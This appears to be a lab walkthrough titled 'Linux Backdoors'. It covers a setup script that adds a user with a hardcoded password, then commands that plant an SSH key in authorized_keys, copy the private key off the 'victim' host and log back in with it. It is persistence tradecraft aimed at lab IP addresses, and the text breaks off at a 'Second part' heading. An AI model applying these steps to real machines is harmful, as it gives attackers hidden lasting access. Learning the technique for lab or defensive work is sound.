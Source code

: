 # Linux Backdoors

## Prerequisites

Victim IP: **192.168.212.151**
Host IP: **192.168.1.132**
Prefered port: **4444**

**Setup.sh** script
```sh
#!/bin/bash

USER="web"

if ! grep -q $USER /etc/passwd
then
    # User does not exist
    useradd -m -s /bin/bash $USER
    echo "Set the password to: l3tmein"
    #passwd $USER
    echo "web:l3tmein" | chpasswd
fi
```


## Instructions

1.1 Create .SSH directory
```sh
# Create .SSH directory
mkdir .ssh

# Create the authorized keys file
touch .ssh/authorized_keys

# Ensure proper permissions
chmod 700 .ssh
chmod 600 .ssh/authorized_keys

# Generare ssh key pairs
ssh-keygen -b 4096 -t rsa

# Copy the public key in the authorized keys file
cat .ssh/id_rsa.pub >> .ssh/authorized_keys

# retrieve the private key from the server using SCP to the local folder
scp web@192.168.212.151:.ssh/id_rsa .

# attempt a connection with the following command
ssh -i id_rsa web@192.168.212.151

# change the password to: web123
passwd web

# check that you cannot log in
``` 

### Second part
